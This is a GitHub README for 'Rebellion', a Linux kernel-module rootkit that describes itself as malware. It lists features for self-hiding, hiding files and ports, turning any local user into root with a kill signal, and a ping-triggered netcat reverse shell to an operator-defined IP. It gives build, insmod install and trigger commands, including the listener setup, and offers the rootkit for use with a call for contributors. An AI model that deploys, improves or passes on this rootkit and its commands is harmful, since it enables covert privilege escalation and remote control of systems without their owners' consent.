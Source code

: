 <h1 align="center">「⚔️」 About Rebellion</h1>

<p align="center"><img src="assets/banner.png"></p>

Rebellion is a sophisticated rootkit malware developed specifically for operating systems based on the Linux kernel in the x86 and x86_64 architecture in its 5.x/6.x versions. Rebellion has several features such as self hide/unhide, hide folder/file, hide TCP/UDP port, turning low-privilege users into root and backdoor via ping.

**Note**: Currently, the rootkit is going through a beta phase, where bugs, compilation failures, problems with architectures can be found. I ask that you collaborate with the development of the project to avoid as many problems as possible.

## Features
### Self hide/unhide
Rebellion has the ability to hide/unhide in the system using the `kill -12 0` command.

### Hide folder/file
Rebellion allows you to hide files and directories from a magic prefix defined as `reb_` (`config.h`).
Ex.: `reb_operations/`, `reb_backdoor.elf`.

### Hide TCP/UDP port
Rebellion allows you to hide a TCP/UDP port on your system. The port is defined in the `config.h` file in the `HIDE_PORT` macro.
**Note**: Only works for `netstat` and `lsof` commands. This is a part that is still under development.

### User2Root
When running the `kill -10 0` command with a low-privilege user, Rebellion adds their privileges to `0`, making them a user with `root` permissions on the system.

### Backdoor via ping
Rebellion has a feature that allows you to receive a reverse shell via `netcat` (it is important that it is installed) by sending an ICMP packet via `ping` to your IP and port defined in the `config.h` file in the macros `YOUR_SRV_IP` and `YOUR_SRV_PORT`.

## Tested Kernel Versions
| Distro | Kernel Details |
| ----------- | ----------- |
| Debian GNU/Linux 12 (bookworm) | 6.1.0-32-amd64 (2025-03-06) x86_64 GNU/Linux |
| Ubuntu 22.04 (Jammy Jellyfish) | 5.15.0-25-generic Mar 30 15:54:22 UTC 2022 x86_64 GNU/Linux |

## Build & Run
```
git clone https://github.com/brosck/Rebellion
cd Rebellion
# edit config.h file
make
sudo insmod rebellion.ko
```

## Usage
### Self hide/unhide
```
kill -12 0
```

### Hide folder/file
```
mkdir reb_operations
cd reb_operations
echo test > reb_test.txt
```

### Hide TCP/UDP port
```
# edit HIDE_PORT macro in config.h
netstat -tunlp | grep 1234
```

### User2Root
```
kill -10 0
```

### Backdoor via ping
Target machine:
```
# edit YOUR_SRV_IP and YOUR_SRV_PORT macro in config.h and start LKM
```

Your machine (1º terminal):
```
nc -lnvp 1234
```

Your machine (2º terminal):
```
sudo ping -c 1 <TARGET IP>
```

## Bugs and Improvements
If you have any suggestions for improvements or want to report a bug, feel free to create and report an [issue](https://github.com/brosck/Rebellion/issues) or [pull request](https://github.com/brosck/Rebellion/issues), the aim is always to improve the tool with different features.
